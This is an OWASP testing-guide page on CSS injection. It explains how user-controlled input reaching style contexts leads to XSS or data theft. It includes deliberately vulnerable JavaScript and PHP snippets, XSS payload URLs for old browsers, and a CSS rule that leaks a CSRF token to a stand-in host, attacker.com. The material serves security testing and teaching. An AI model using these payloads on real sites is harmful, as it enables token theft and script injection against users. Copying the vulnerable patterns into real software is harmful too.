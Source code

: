 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```

# Testing for CSS Injection

|ID             |
|---------------|
|WSTG-CLIENT-005|

## Summary

A CSS Injection vulnerability involves the ability to inject arbitrary CSS code in the context of a trusted web site which is rendered inside a victim's browser. The impact of this type of vulnerability varies based on the supplied CSS payload. It may lead to cross site scripting or data exfiltration.

This vulnerability occurs when the application allows user-supplied CSS to interfere with the application's legitimate stylesheets. Injecting code in the CSS context may provide an attacker with the ability to execute JavaScript in certain conditions, or to extract sensitive values using CSS selectors and functions able to generate HTTP requests. Generally, allowing users the ability to customize pages by supplying custom CSS files is a considerable risk.

The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the `location.hash` (source) which reaches the `cssText` function (sink). This particular case may lead to DOM-based XSS in older browser versions; for more information, see the [DOM-based XSS Prevention Cheat Sheet](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.md).

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

The attacker could target the victim by asking them to visit the following URLs:

- `www.victim.com/\#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera \[8,12\])
- `www.victim.com/\#red;-:expression(alert(URL=1));` (IE 7/8)

The same vulnerability may appear in the case of reflected XSS, for example, in the following PHP code:

```html
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

Further attack scenarios involve the ability to extract data through the adoption of pure CSS rules. Such attacks can be conducted through CSS selectors, leading to the exfiltration of data, for example, CSRF tokens.

Here is an example of code that attempts to select an input with a `name` matching `csrf_token` and a `value` beginning with an `a`. By utilizing a brute-force attack to determine the attribute's `value`, it is possible to carry out an attack that sends the value to the attacker's domain, such as by attempting to set a background image on the selected input element.

```html
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

Other attacks using solicited content such as CSS are highlighted in [Mario Heiderich's talk, "Got Your Nose"](https://www.youtube.com/watch?v=FIQvAaZj_HA) on YouTube.

## How to Test

Code should be analyzed to determine if a user is permitted to inject content in the CSS context. Particularly, the way in which the website returns CSS rules on the basis of the inputs should be inspected.

The following is a basic example:

```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

The above code contains a source `location.hash`, controlled by the attacker, that can inject directly in the `style` attribute of an HTML element. As mentioned above, this may lead to different results depending on the browser in use and the supplied payload.

The following pages provide examples of CSS injection vulnerabilities:

- [Password “cracker” via CSS and HTML5](http://html5sec.org/invalid/?length=25)
- [CSS attribute reading](http://eaea.sirdarckcat.net/cssar/v2/)
- [JavaScript based attacks using `CSSStyleDeclaration` with unescaped input](https://code.google.com/p/domxsswiki/wiki/CssText)

For further OWASP resources on preventing CSS injection, see the [Securing Cascading Style Sheets Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).
